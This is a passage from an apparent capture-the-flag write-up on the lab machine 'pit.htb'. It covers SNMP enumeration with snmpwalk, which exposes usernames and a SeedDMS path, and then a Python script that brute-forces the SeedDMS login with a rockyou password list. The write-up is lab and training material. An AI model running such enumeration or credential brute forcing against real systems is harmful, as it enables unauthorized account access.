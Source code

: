 ```bash
michelle             user_u               s0                   *            <----- USERNAMES
root                 unconfined_u         s0-s0:c0.c1023       *
System uptime
07:52:13 up  7:33,  1 user,  load average: 0.00, 0.00, 0.01
```

Now, i went a ran the other commands (from hacktricks) which disclosed the OID's structure (not all of it, but most of it, more on this later)
```bash
cmd: snmpwalk -v 2c -c public 10.10.10.241

iso.3.6.1.2.1.1.1.0 = STRING: "Linux pit.htb 4.18.0-240.22.1.el8_3.x86_64 #1 SMP Thu Apr 8 19:01:30 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (2729888) 7:34:58.88
iso.3.6.1.2.1.1.4.0 = STRING: "Root <root@localhost> (configure /etc/snmp/snmp.local.conf)"
iso.3.6.1.2.1.1.5.0 = STRING: "pit.htb"
iso.3.6.1.2.1.1.6.0 = STRING: "Unknown (edit /etc/snmp/snmpd.conf)"
# -- snip --
``` 

Also, found a [resource](https://net-snmp.sourceforge.io/wiki/index.php/TUT:snmpwalk) that stated that to get the complete structure we need to specify the starting OID to retrieve more than one group of information
```bash
cmd: snmpwalk -v 2c -c public 10.10.10.241 .iso
# -- snip --
iso.3.6.1.4.1.2021.9.1.2.2 = STRING: "/var/www/html/seeddms51x/seeddms"  <- Hummmmm
# -- snip --
```

And sure we did !!! (just shown the important part because the output is MASSIVE) <br>

**Note:** As stated in the hacktricks page, i ran **snmp-check** and **braa** but the data retrieved was essentially the same <br>

Soooo, what is **seeddms**: SeedDMS is a free document management system with an easy to use web based user interface <br>

It is a web application and is running where it should (**/var/www/html**), is it accessible through the pages we found early? <br>
- **pit.htb** (pit.htb/seeddms51x/seeddms) cannot access it
- **dms-pit.htb** (dms-pit.htb/seeddms51x/seeddms) can access it (login form)

We have the users from the snmpwalk, lets Brute-force it !! (also tested for sqli, no success) <br>

I tried to use burp intruder, but it becomes so slow in the community edition that i made a dirty python script (even though it is not threaded, it is faster than burp's intruder) 
```python
import requests
import time
url = 'http://dms-pit.htb/seeddms51x/seeddms/op/op.Login.php'
INVALID = "Error signing in."
usernames = open("users.txt", "r")   # <----- found in the snmpwalk afore
passwords = open("passwd.txt", "r")  # <----- rockyou.txt 
usernames = usernames.readlines()    # <----- since is the inner loop, need to retrieve all of them first

for passwd in passwords.readlines():
    passwd = passwd.strip()
    for user in usernames:
        user = user.strip()
        print("Testing -> {}:{}".format(user, passwd))
        data = { 'login': user,'pwd' : passwd}
        x = requests.post(url, data = data)
        if INVALID not in x.text:
            print("Found valid creds!!! -> {}:{}".format(user, passwd))            
            exit(0)
```